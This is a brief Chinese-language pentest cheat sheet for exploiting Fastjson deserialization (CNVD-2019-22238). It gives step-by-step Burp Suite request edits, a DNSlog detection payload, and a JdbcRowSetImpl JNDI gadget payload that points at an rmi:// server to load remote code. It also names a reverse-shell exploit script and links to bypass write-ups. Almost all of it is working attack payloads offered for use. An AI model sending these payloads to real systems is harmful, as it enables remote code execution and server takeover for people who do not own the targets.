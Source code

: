# 漏洞验证, bp 发包
fastjson-cnvd_2019_22238

```sh
# 1. 改POST
POST / HTTP/1.1
# 2. 改application/json
Content-Type: application/json

# 3. body里按下面填
{"x":{"@type":"java.net.Inet4Address","val":"2i9ehz.dnslog.cn"}}
```

使用 web_exp_reverse_shell_fastjson_jndi_JNDI-Injection-Exploit_fast.py


# payload2

```json
{
 "1": {
 "@type": "java.lang.Class", 
 "val": "com.sun.rowset.JdbcRowSetImpl"
 }, 
 "2": {
 "@type": "com.sun.rowset.JdbcRowSetImpl", 
 "dataSourceName": "rmi://192.168.1.13:1099/v4v9uh", 
 "autoCommit": true
 }
}
```


[FastJson1.68&1.80版本反序列化利用](https://mp.weixin.qq.com/s/0C5Bny9LxRP62lTq3jRrvQ)
[fastjson-BCEL不出网打法原理分析](https://mp.weixin.qq.com/s/OwuCNHd9dU6sRMTwLnifCw)
